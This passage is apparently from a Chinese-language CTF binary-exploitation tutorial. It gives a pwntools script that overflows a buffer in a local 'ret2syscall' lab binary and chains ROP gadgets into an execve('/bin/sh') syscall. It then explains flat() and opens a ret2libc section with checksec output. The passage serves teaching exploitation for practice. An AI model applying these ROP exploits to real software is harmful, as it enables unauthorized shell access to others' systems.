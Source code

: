 ## 测试
```python
from pwn import *

p = process('./ret2syscall')
offset = 0x6c + 4

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
binsh = 0x080be408
int_0x80 = 0x08049421

payload = 'A'*offset + p32(pop_eax_ret) + p32(0xb) + p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(binsh) + p32(int_0x80)


payload = flat('A'*offset , pop_eax_ret , 0xb , pop_edx_ecx_ebx_ret , 0 , 0 , binsh,int_0x80)
print(payload)

p.sendline(payload)

p.interactive()

```
> 1. flat()
> 在pwntools中可以用flat()來构造rop，参数传递用list來传，list中的element为想串接的rop gadget地址，简单来说就是可以把：rop = p32(gadget1) + p32(gadget2) + p32(gadget3) ......变成这样表示：flat([gadget1,gadget2,gadget3,......])

-------------

# 0x04 ret2libc
## 原理
我们知道程序调用了libc.so，并且libc.so里保存了大量可利用的函数，我们如果可以让程序执行system(“/bin/sh”)的话，也可以获取到shell。既然思路有了，那么接下来的问题就是如何得到system()这个函数的地址以及”/bin/sh”这个字符串的地址，通常是返回至某个函数的 plt 处或者函数的具体位置 (即函数对应的 got 表项的内容)

## 1. 程序中有system和'/bin/sh'

### 检查保护
```
$ checksec ret2libc1
[*] '/home/han/ck/pwn/linux/ret2libc/ret2libc1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
